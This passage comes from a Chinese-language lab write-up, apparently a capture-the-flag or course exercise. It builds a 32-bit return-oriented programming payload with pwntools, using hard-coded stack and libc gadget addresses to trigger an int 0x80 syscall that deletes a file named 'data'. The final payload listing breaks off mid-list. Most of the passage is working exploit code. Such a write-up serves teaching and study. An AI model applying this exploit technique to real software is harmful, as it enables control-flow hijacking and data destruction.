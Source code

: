 ```python
    0xffffffff, # padding

    # libc_addr + pop_eax,
    libc_addr + xor_eax,
    libc_addr + inc_eax,
    libc_addr + pop_ebx,
    0x11111111,
    int_addr,
    0xffffffff,
]

payload = b'a' * offset
for value in stack_values:
    payload += p32(value)

with open('payload','wb') as f:
    f.write(payload)
```
但是运行仍然除了问题，这一次是 ebx。由于之前的字符串匹配出现了部分匹配，这里的删除无法找到匹配的文件。
![image.png](https://cdn.nlark.com/yuque/0/2024/png/43291115/1719062019259-6969722e-10bd-4b7a-86fa-fa2b8a847c6e.png#averageHue=%2382838c&clientId=uf1920686-3db5-4&from=paste&height=41&id=u011a49ca&originHeight=61&originWidth=502&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=21293&status=done&style=none&taskId=ue3a44410-a2a9-4494-9a52-59ba8408726&title=&width=334.6666666666667)
如图所示，ebx 装载的地址指向字符串实际上是 data_setent。经过我们的查找，无论是目标程序或是 libc 都不存在 'data' 字符串。
预期一个接一个去尝试，不如我们直接在 payload 中构造一个，然后再计算偏移。
也可以用 mov 和 pop 指令将 data 写入数据段，这样方便计算地址。
![image.png](https://cdn.nlark.com/yuque/0/2024/png/43291115/1719062692570-56bec6a1-3745-4624-a279-312407775622.png#averageHue=%2394795e&clientId=uf1920686-3db5-4&from=paste&height=269&id=ua3365421&originHeight=403&originWidth=1092&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=327605&status=done&style=none&taskId=u5e54840a-df8f-4112-882a-efce6680f21&title=&width=728)
为了避免出现字符串空字符导致的拷贝终止，我们将 data 字符串放到 payload 最后。通过观察缓冲区的内容，我们发现，填写的 gadgets 总长度为 0xffffbc80 - 0xffffbc2c = 0x54 字节。所以 data 的地址就是：
`data_addr = buf_addr + offset + 0x54`
最后构造 payload 如下：
```python
from pwn import *
import struct 
buf_addr = 0xffffbbbc
ebp_addr = 0xffffbc28

libc_addr = 0xf7c00000

pop_eax = 0x0002ed92
pop_ebx = 0x0002c01f
xor_eax = 0x00034ec0
inc_eax = 0x0002f7b5


int_addr = 0x08048623 # int 0x80; pop eax; ret;

offset = ebp_addr - buf_addr + 0x4
data_addr = buf_addr + offset + 0x54

stack_values = [
    # libc_addr + pop_eax,
    libc_addr + xor_eax,
    libc_addr + inc_eax,
    libc_addr + inc_eax,
    libc_addr + inc_eax,
    libc_addr + inc_eax,
    libc_addr + inc_eax,
    libc_addr + inc_eax,
    libc_addr + inc_eax,
    libc_addr + inc_eax,
    libc_addr + inc_eax,
    libc_addr + inc_eax,
    libc_addr + pop_ebx,
    data_addr,
```